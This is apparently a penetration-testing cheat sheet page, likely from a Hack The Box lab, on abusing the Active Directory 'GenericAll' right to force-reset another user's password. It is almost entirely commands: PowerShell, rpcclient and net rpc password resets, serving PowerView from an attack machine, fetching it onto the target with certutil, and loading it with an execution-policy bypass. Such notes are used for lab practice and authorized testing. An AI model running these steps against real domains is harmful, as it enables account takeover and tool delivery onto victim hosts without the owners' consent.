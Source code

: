 # "GenericAll" Privilege

## "GenericAll" Privilege

### Force Change Password&#x20;

If we have "GenericAll" Privilege on a user we can Force the user password.

#### PowerShell

{% code overflow="wrap" %}
```powershell
$userIdentity = 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb'

Set-ADAccountPassword -Identity $userIdentity -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}

#### RPC&#x20;

<pre class="language-bash" data-title="rpcclient"><code class="lang-bash">rpcclient -U DOMAIN.COM/USER DC_IP

<strong>setuserinfo2 USER_TO_CHANGE_PASS 23 'NewPassword123!'
</strong></code></pre>

{% code overflow="wrap" %}
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
{% endcode %}



#### PowerView

Import powerview

{% code title="transfer PowerView" overflow="wrap" %}
```bash
# attack machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 80

# target machine windows
certutil -urlcache -f http://IP/PowerView.ps1 PowerView.ps1
```
{% endcode %}

{% code title="Import PowerView" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1
```
{% endcode %}



Now we can force change the micheal's password.

{% code title="Create Password" overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)

```
{% endcode %}

{% code title="Convert pswd in secure string" %}
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
{% endcode %}

{% code title="Set password to user" overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword $UserPassword -Credential $Cred
```
{% endcode %}



